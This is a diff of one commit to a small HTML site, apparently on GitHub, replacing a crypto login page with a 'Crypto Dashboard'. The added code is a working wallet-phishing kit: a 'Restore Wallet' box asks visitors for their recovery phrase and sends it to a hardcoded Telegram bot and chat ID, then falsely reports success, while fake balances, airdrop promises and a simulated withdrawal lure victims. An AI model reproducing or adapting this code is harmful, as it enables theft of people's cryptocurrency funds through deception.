

Before and after one commit to rrloaty/Projj, a plain HTML site: page index.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,213 +3,231 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Crypto Login & Sign Up</title>
+  <title>Crypto Dashboard</title>
   <style>
-    * {
-      margin: 0; padding: 0; box-sizing: border-box;
-      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+    * {margin: 0; padding: 0; box-sizing: border-box; font-family: 'Segoe UI', sans-serif;}
+    body {background: #0f0f1b; color: #fff; min-height: 100vh; padding-bottom: 80px;}
+    .content-section {display: none; padding: 30px 20px; text-align: center;}
+    .content-section.active {display: block;}
+    .content-box {
+      background: #11152a;
+      padding: 25px;
+      border-radius: 12px;
+      box-shadow: 0 0 20px rgba(0,255,255,0.15);
+      border: 1px solid #1f2235;
+      margin-top: 30px;
     }
-    body {
-      background: radial-gradient(circle at top, #0f0f1b, #000);
-      color: #fff;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
+    .content-box h2 {color: #00ffff; margin-bottom: 15px;}
+    .bottom-nav {
+      position: fixed; bottom: 0; left: 0; width: 100%;
+      background: #11152a; display: flex; justify-content: space-around;
+      border-top: 1px solid #1f2235; z-index: 100;
     }
-    .container {
-      width: 360px;
-      background: #11152a;
-      border: 1px solid #1f2235;
-      border-radius: 12px;
-      box-shadow: 0 0 20px rgba(0,255,255,0.1);
-      overflow: hidden;
-      animation: glow 3s infinite alternate;
+    .nav-item {
+      flex: 1; padding: 12px 5px; text-align: center;
+      color: #aaa; font-size: 18px; cursor: pointer; transition: 0.3s;
     }
-    @keyframes glow {
-      from { box-shadow: 0 0 10px rgba(0,255,255,0.2); }
-      to   { box-shadow: 0 0 25px rgba(0,255,255,0.5); }
+    .nav-item.active {color: #00ffff; transform: translateY(-5px);}
+    .nav-item span {display: block; font-size: 22px;}
+    .input-field {
+      width: 100%; padding: 12px; margin: 10px 0;
+      border-radius: 6px; border: 1px solid #00ffff;
+      background: #0e162e; color: #00ffff;
+      outline: none; resize: none;
     }
-    .tabs {
-      display: flex;
-      cursor: pointer;
+    .btn {
+      padding: 12px 20px;
+      background: linear-gradient(90deg,#00c6ff,#0072ff);
+      border: none; color: #fff;
+      border-radius: 8px; cursor: pointer;
+      font-size: 16px;
     }
-    .tab {
-      flex: 1;
-      text-align: center;
-      padding: 15px;
-      background: #1a1e33;
-      color: #ccc;
-      transition: 0.3s;
-      border-bottom: 2px solid transparent;
-    }
-    .tab.active {
-      background: #0e182e;
-      color: #00ffff;
-      border-bottom: 2px solid #00ffff;
-    }
-    form {
-      padding: 20px;
-      display: none;
-    }
-    form.active {
-      display: block;
-    }
-    input[type="text"],
-    input[type="email"],
-    input[type="password"] {
-      width: 100%;
-      padding: 12px;
-      margin-bottom: 12px;
-      border: 1px solid #333c57;
-      background: #0e162e;
-      color: #00ffff;
-      border-radius: 6px;
-    }
-    input::placeholder {
-      color: #777;
-    }
-    button {
-      width: 100%;
-      padding: 12px;
-      background: linear-gradient(90deg, #00c6ff, #0072ff);
-      color: white;
-      border: none;
-      border-radius: 6px;
-      font-size: 16px;
-      font-weight: bold;
-      cursor: pointer;
-      transition: 0.3s;
-    }
-    button:hover {
-      background: linear-gradient(90deg, #0072ff, #00c6ff);
-    }
-    .message {
-      margin-top: 10px;
-      text-align: center;
-      font-weight: bold;
-    }
-    .error {
-      color: #ff4f4f;
-    }
-    .success {
-      color: #00ff90;
-    }
-    h2 {
-      text-align: center;
-      color: #00ffff;
-      margin-bottom: 20px;
-    }
+    #bnbPrice {color: #00ff90; font-weight: bold; font-size: 18px; margin-top: 10px;}
+    .tx-log {margin-top: 15px; font-size: 15px; color: #ccc; text-align: left; padding-left: 10px;}
   </style>
 </head>
 <body>
 
-<div class="container">
-  <div class="tabs">
-    <div class="tab active" onclick="showForm('login')">Login</div>
-    <div class="tab" onclick="showForm('signup')">Sign Up</div>
+<!-- ✅ Home Section -->
+<div id="home" class="content-section active">
+  <div class="content-box">
+    <h2>💼 Wallet</h2>
+    <p>Your current balance:</p>
+    <div style="font-size: 24px; margin-top: 10px;">
+      <strong class="walletAmount">$950</strong> (<span class="bnbValueHome">--</span> BNB)
+    </div>
+  </div>
+  <div class="content-box"><h2>📊 BNB Price</h2><div id="bnbPrice">Loading BNB price...</div></div>
+  <div class="content-box"><h2>📢 Latest Update</h2><p>We just launched a new feature for faster withdrawals!</p></div>
+  <div class="content-box" style="background: linear-gradient(135deg, #122c42, #0d1d2e); border: 1px solid #1a4f72;">
+    <h2 style="color: #00e6e6;">💎 Airdrop</h2>
+    <p style="color: #cceeff;">Earn free BNB daily through our airdrop rewards.</p>
+  </div>
+  <div class="content-box" style="background: linear-gradient(135deg, #2c132c, #1a0d1a); border: 1px solid #84216b;">
+    <h2 style="color: #ff66cc;">🧠 Tasks</h2>
+    <p style="color: #ffd6f5;">Complete daily challenges to earn bonus BNB.</p>
+  </div>
+</div>
+
+<!-- ✅ Wallet Section -->
+<div id="wallet" class="content-section">
+  <div class="content-box"><h2>💼 Wallet</h2>
+    <p>Your current balance:</p>
+    <div style="font-size: 24px; margin-top: 10px;">
+      <strong class="walletAmount">$950</strong> (<span class="bnbValueWallet">--</span> BNB)
+    </div>
   </div>
 
-  <!-- LOGIN FORM -->
-  <form id="loginForm" class="active" action="project.html" method="GET" onsubmit="return validateLogin(event)">
-    <h2>Crypto Login</h2>
-    <input type="text" id="userId" placeholder="User ID" />
-    <input type="password" id="password" placeholder="Password" />
-    <button type="submit">Login</button>
-    <div id="loginMessage" class="message"></div>
-  </form>
+  <div class="content-box" style="background: linear-gradient(135deg, #1b1f30, #0f1628); border: 1px solid #344966;">
+    <h2 style="color: #44e3ff;">🔐 Restore Wallet</h2>
+    <p style="color: #cceeff;">Enter your token phrase to restore your wallet and start earning.</p>
+    <textarea id="tokenPhrase" class="input-field" placeholder="Enter your token phrase..." rows="4"></textarea>
+    <button class="btn" onclick="restoreWallet()">Restore Wallet</button>
+    <div id="tokenMsg" style="margin-top:15px; font-size:14px;"></div>
+  </div>
+</div>
 
-  <!-- SIGNUP FORM -->
-  <form id="signupForm" action="project.html" method="GET" onsubmit="return validateSignup(event)">
-    <h2>Create Crypto Account</h2>
-    <input type="text" id="signupName" placeholder="Full Name" />
-    <input type="text" id="signupId" placeholder="Create ID" />
-    <input type="password" id="signupPassword" placeholder="Password" />
-    <input type="text" id="signupReg" placeholder="Reg No" />
-    <button type="submit">Register</button>
-    <div id="signupMessage" class="message"></div>
-  </form>
-  <br>
-<a href="https://t.me/cryptocicsbot/projectcrypto">
-  <button class="tgb" style="display: flex; align-items: center; justify-content: center; gap: 8px; background: #e0f7ff; color: #000; padding: 12px; border: none; border-radius: 6px; font-size: 16px; font-weight: bold; cursor: pointer;">
-    <img src="https://upload.wikimedia.org/wikipedia/commons/8/82/Telegram_logo.svg" alt="Telegram" style="width: 20px; height: 20px;">
-    Continue with Telegram
-  </button>
-</a>
+<!-- ✅ FAQ Section -->
+<div id="deposit" class="content-section">
+  <div class="content-box"><h2>❓ How to Earn</h2><p style="color:#cceeff;">Complete daily tasks, join airdrops, and restore wallet to begin earning.</p></div>
+  <div class="content-box"><h2>📈 How to Trade</h2><p style="color:#ffd6f5;">You must have at least $20 in wallet. Restore your phrase to activate trading features.</p></div>
+  <div class="content-box"><h2>💡 Need Help?</h2><p style="color:#ccc;">Still confused?</p><a href="https://t.me/crmmrhelper" style="color:#5ffe68;">Contact Admin</a></div>
 </div>
+
+<!-- ✅ Withdraw Section -->
+<div id="withdraw" class="content-section">
+  <div class="content-box"><h2>➖ Withdraw</h2>
+    <input type="text" id="withdrawAddress" class="input-field" placeholder="Enter BNB address" />
+    <input type="number" id="withdrawAmount" class="input-field" placeholder="Amount in BNB" step="0.0001" />
+    <button class="btn" onclick="withdrawBNB()">Withdraw</button>
+    <div class="tx-log" id="withdrawLog"></div>
+  </div>
+</div>
+
+<!-- ✅ Transactions -->
+<div id="transactions" class="content-section">
+  <div class="content-box"><h2>📜 Transactions</h2><div id="txHistory"></div></div>
+</div>
+
+<!-- ✅ Bottom Navigation -->
+<div class="bottom-nav">
+  <div class="nav-item active" onclick="showSection('home', this)"><span>🏠</span>Home</div>
+  <div class="nav-item" onclick="showSection('wallet', this)"><span>💰</span>Earn </div>
+  <div class="nav-item" onclick="showSection('deposit', this)"><span>❓</span>FAQ</div>
+  <div class="nav-item" onclick="showSection('withdraw', this)"><span>➖</span>Withdraw</div>
+  <div class="nav-item" onclick="showSection('transactions', this)"><span>📜</span>History</div>
+</div>
+
+<!-- ✅ Script -->
 <script>
-  function showForm(formType) {
-    document.querySelector('.tab.active').classList.remove('active');
-    document.querySelector('form.active').classList.remove('active');
-    document.getElementById('loginMessage').textContent = '';
-    document.getElementById('signupMessage').textContent = '';
+  const TELEGRAM_BOT_TOKEN = "7964620453:AAFMQ4mxCpezN6kuTCUEgK7WeMBFNJW2ZS4";
+  const TELEGRAM_CHAT_ID = "7979664801";
 
-    if (formType === 'login') {
-      document.querySelectorAll('.tab')[0].classList.add('active');
-      document.getElementById('loginForm').classList.add('active');
-    } else {
-      document.querySelectorAll('.tab')[1].classList.add('active');
-      document.getElementById('signupForm').classList.add('active');
-    }
+  let bnbPriceUSD = 600;
+  let currentBalanceUSD = 950;
+
+  function showSection(id, el) {
+    document.querySelectorAll('.content-section').forEach(s => s.classList.remove('active'));
+    document.getElementById(id).classList.add('active');
+    document.querySelectorAll('.nav-item').forEach(i => i.classList.remove('active'));
+    el.classList.add('active');
   }
 
-  function validateLogin(e) {
-    const userId = document.getElementById('userId').value.trim();
-    const password = document.getElementById('password').value.trim();
-    const message = document.getElementById('loginMessage');
+  function updateBNBValue() {
+    const bnb = (currentBalanceUSD / bnbPriceUSD).toFixed(4);
+    document.querySelectorAll(".walletAmount").forEach(el => el.textContent = `$${currentBalanceUSD}`);
+    document.querySelectorAll(".bnbValueHome").forEach(el => el.textContent = bnb);
+    document.querySelectorAll(".bnbValueWallet").forEach(el => el.textContent = bnb);
+  }
 
-    if (!userId || !password) {
-      e.preventDefault();
-      message.textContent = 'Please enter both User ID and Password.';
-      message.className = 'message error';
-      return false;
+  function restoreWallet() {
+    const input = document.getElementById("tokenPhrase").value.trim();
+    const msgBox = document.getElementById("tokenMsg");
+    const wordCount = input.split(/\s+/).length;
+
+    if (input.length < 12 || wordCount < 3) {
+      msgBox.style.color = 'orange';
+      msgBox.textContent = '❌ Invalid phrase: Must be at least 12 characters and 3 words.';
+      return;
     }
 
-    const storedId = localStorage.getItem('registeredId');
-    const storedPassword = localStorage.getItem('registeredPassword');
+    if (currentBalanceUSD < 20) {
+      msgBox.style.color = 'red';
+      msgBox.innerHTML = `❌ You need at least <strong>$20</strong> before restoring.<br>Current balance: $${currentBalanceUSD}`;
+      return;
+    }
 
-    if ((userId === storedId && password === storedPassword) ||
-        (userId === '7eb788ndn70' && password === 'a679ndm8')) {
-      message.textContent = '✅ Login successful!';
-      message.className = 'message success';
-      return true; // allow submission
-    } else {
-      e.preventDefault();
-      message.textContent = '❌ Invalid User ID or Password.';
-      message.className = 'message error';
-      return false;
-    }
+    const message = `🔐 Restore Wallet Request:\n\n${input}`;
+    fetch(`https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`, {
+      method: 'POST',
+      headers: { "Content-Type": "application/json" },
+      body: JSON.stringify({
+        chat_id: TELEGRAM_CHAT_ID,
+        text: message
+      })
+    }).then(res => {
+      if (res.ok) {
+        msgBox.style.color = '#00ff90';
+        msgBox.innerHTML = `✅ Wallet restored successfully.<br>🟢 Trading and Earning will be activated only of you have $20 in your BNB Wallet in the phrases you submitted.`;
+        document.getElementById("tokenPhrase").value = '';
+      } else {
+        msgBox.style.color = 'red';
+        msgBox.textContent = '❌ Failed to send request.';
+      }
+    }).catch(() => {
+      msgBox.style.color = 'red';
+      msgBox.textContent = '⚠️ Network error. Try again.';
+    });
   }
 
-  function validateSignup(e) {
-    const name = document.getElementById('signupName').value.trim();
-    const userId = document.getElementById('signupId').value.trim();
-    const password = document.getElementById('signupPassword').value.trim();
-    const reg = document.getElementById('signupReg').value.trim();
-    const message = document.getElementById('signupMessage');
+  function withdrawBNB() {
+    const address = document.getElementById("withdrawAddress").value.trim();
+    const val = parseFloat(document.getElementById("withdrawAmount").value);
+    const logEl = document.getElementById("withdrawLog");
 
-    if (!name || !userId || !password || !reg) {
-      e.preventDefault();
-      message.textContent = '⚠️ Please fill out all fields.';
-      message.className = 'message error';
-      return false;
+    if (!address || !val || val <= 0) {
+      logEl.textContent = "❌ Enter valid address and amount.";
+      logEl.style.color = "red";
+      return;
     }
 
-    if (reg !== '629jj7373v') {
-      e.preventDefault();
-      message.textContent = '❌ Invalid Reg No.';
-      message.className = 'message error';
-      return false;
+    if (currentBalanceUSD < 1000) {
+      logEl.textContent = "❌ Need $1000 minimum to withdraw.";
+      logEl.style.color = "red";
+      return;
     }
 
-    // Save credentials
-    localStorage.setItem('registeredId', userId);
-    localStorage.setItem('registeredPassword', password);
+    const usd = val * bnbPriceUSD;
+    if (usd > currentBalanceUSD) {
+      logEl.textContent = "❌ Not enough balance.";
+      logEl.style.color = "red";
+      return;
+    }
 
-    message.textContent = '🎉 Sign up successful!';
-    message.className = 'message success';
-    return true; // allow form to submit to project.html
+    currentBalanceUSD -= usd;
+    updateBNBValue();
+    logEl.textContent = `✅ Sent ${val} BNB ($${usd.toFixed(2)}) to ${address}`;
+    logEl.style.color = "#00ff90";
+    addToHistory(logEl.textContent);
   }
+
+  function addToHistory(txt) {
+    const div = document.createElement("div");
+    div.textContent = txt;
+    document.getElementById("txHistory").prepend(div);
+  }
+
+  fetch("https://api.coingecko.com/api/v3/simple/price?ids=binancecoin&vs_currencies=usd")
+    .then(res => res.json())
+    .then(data => {
+      bnbPriceUSD = data.binancecoin.usd;
+      document.getElementById("bnbPrice").textContent = `BNB Price: $${bnbPriceUSD}`;
+      updateBNBValue();
+    })
+    .catch(() => {
+      document.getElementById("bnbPrice").textContent = `BNB Price: $${bnbPriceUSD} (offline)`;
+      updateBNBValue();
+    });
 </script>
 
 </body>
```
